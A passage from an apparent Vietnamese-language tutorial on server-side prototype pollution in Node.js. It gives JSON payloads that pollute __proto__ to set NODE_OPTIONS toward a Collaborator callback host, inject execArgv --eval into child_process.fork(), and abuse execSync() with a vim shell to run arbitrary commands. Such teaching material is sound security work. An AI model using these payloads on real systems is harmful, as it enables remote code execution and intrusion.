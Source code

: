 ```json
"__proto__": {
    "shell":"node",
    "NODE_OPTIONS":"--inspect=YOUR-COLLABORATOR-ID.oastify.com\"\".oastify\"\".com"
}
```

Bằng cách này ta có thể xác định được một request tạo trình con mới với các đối số dòng lệnh có thể kiểm soát.
{: .notice--success}

### RCE via child_process.fork()

các phương thức `child_process.spawn()` và `child_process.fork()` cho phép tạo ra một quy trình con của Node. 

Phương thức `fork()` chấp nhận một đối tượng tùy ý trong đó có một `gadget` tiềm năng là thuộc tính `execArgv`. Đây là một mảng các chuỗi chứa các đối số dòng lệnh nên được sử dụng khi sinh ra tiến trình con.
Nếu không được xác định trước điều này cũng có nghĩa là ta có thể kiểm soát nó.

Cách này khá mạnh mẽ, nó cho phép tả các mô-đun bổ úng vào môi trường này và sử dụng:
```json
"execArgv": [
    "--eval=require('<module>')"
]
```

Ngoài `fork(), child_process` còn có `execSync()` cho phép thực thi một chuỗi dưới dạng lệnh hệ thống.
{: .notice--success}

### RCE via child_ process.execSync()

Phương thức `execSync()` cũng chấp nhận các đối tượng tùy chọn dẫn tới có thể ô nhiễm nguyên mẫu.
Bạn có thể gây ô nhiễm bằng cách đưa vào 2 thuộc tính `shell` và `input`.

Ví dụ:
```json
"shell":"vim",
"input":":! <command>\n"
```

vim có một lời nhắc và yêu cầu nhập Enter để chạy lệnh được cấp, bypass bằng cách thêm `\n`
{: .notice--info}